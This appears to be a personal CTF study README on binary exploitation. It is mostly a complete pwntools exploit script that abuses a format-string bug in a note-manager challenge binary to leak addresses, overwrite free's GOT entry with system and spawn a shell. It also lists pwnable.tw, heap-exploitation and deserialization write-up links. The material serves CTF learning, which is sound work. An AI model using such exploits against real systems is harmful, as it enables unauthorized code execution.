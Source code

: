 # [0] Blogs
> Note for me.

# [1] Works...

[+] [Google Drive](https://drive.google.com/drive/folders/1Yd3RnKlJunSlAkmUS8o3cVPhGl3GtzmC?usp=share_link) .

[+] [Download folder from git](https://download-directory.github.io/) .

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
# gdb.attach(
#     p,
#     """
# 	breakrva 0x10AA
#     breakrva 0x10C2
#     breakrva 0x109E
#     breakrva 0x10B6
#     breakrva 0x0E2D
#     """,
# )
# D E N S printf
# p = remote("159.89.203.225", "10002")
# ATTT{e4sy_fmt_str_pa0}
def newNOTE(idx, size, content):
    p.sendlineafter(b"Choice >", b"N")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Size >", str(int(size)).encode())
    p.sendlineafter(b"Content >", content)    
    return

def deleteNOTE(idx):
    p.sendlineafter(b"Choice >", b"D")
    p.sendlineafter(b"Index >", str(idx).encode())
    return

def showNOTE(idx):
    p.sendlineafter(b"Choice >", b"S")
    p.sendlineafter(b"Index >", str(idx).encode())
    leak = p.recvuntil(b"\n")
    return leak

def editNOTE(idx, content):
    p.sendlineafter(b"Choice >", b"E")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Content >", content)
    return


newNOTE(0, 0x200, b"%p-" * 20)
newNOTE(1, 0x100, b"B" * 8)
newNOTE(2, 0x100, b"/bin/sh\x00")
deleteNOTE(1)
leak = showNOTE(0)
leak = leak.split(b"-")
elf_leak = int(leak[10].decode(), 16)
libc_leak = int(leak[14].decode(), 16)
stack_ptr = int(leak[16].decode(), 16)

# 15 - libc | 11 - elf 
# 17 - 43
elf.address = elf_leak - 0x10bb
libc.address = libc_leak - 0x21bf7
rsp = stack_ptr - 0x128
log.info("ELF base address:             " + hex(elf.address))
log.info("Leak (__libc_start_main+231): " + hex(libc_leak))
log.info("Libc base address:            " + hex(libc.address))
log.info("rsp:                          " + hex(rsp))

# fix stack ptr
wr = (rsp + 0x68 + 2) & 0xffff
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

wr = wr - 2
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

# overwrite got free => libc system | para 19
tmp = libc.symbols['system']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = (tmp + 2) & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = libc.symbols['system']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

deleteNOTE(2)

p.interactive()

```

> Pwnable.tw

- https://www.taintedbits.com/tags/pwnable-tw/
- https://hackmd.io/@wxrdnx/r1CXaFHdv
- https://drx.home.blog/2019/04/20/pwnable-tw-hacknote/

> TetCTF
 
- `2019` https://d4rkn3ss.medium.com/write-up-for-pwnable-challenges-tetctf-2019-a74eb177518e

> ASCIS - SVATTT

- `2017` https://www.youtube.com/watch?v=_EJQKtpQ0oM
 

>Heap

  * `All view heap teachnique exploit` https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/
  
  * `Heap security check` https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks

> how2heap 

  * https://hackmd.io/@u1f383/Sy_2pqMAP


> listNOTE-PWNABLE

  * https://uaf.io/tags.html#BCTF-ref

### List video pwnable, exploit, security research, ...

* [BabyTalk#5](https://www.youtube.com/watch?v=94O8wdcvEFM&list=WL&index=249) .

--------------------------------------------------------------------------------


[+] OSCP - https://different-mosquito-965.notion.site/OSCP-ef04a657ca26423d81c1a1fc0b35e147

[+] Java - https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/
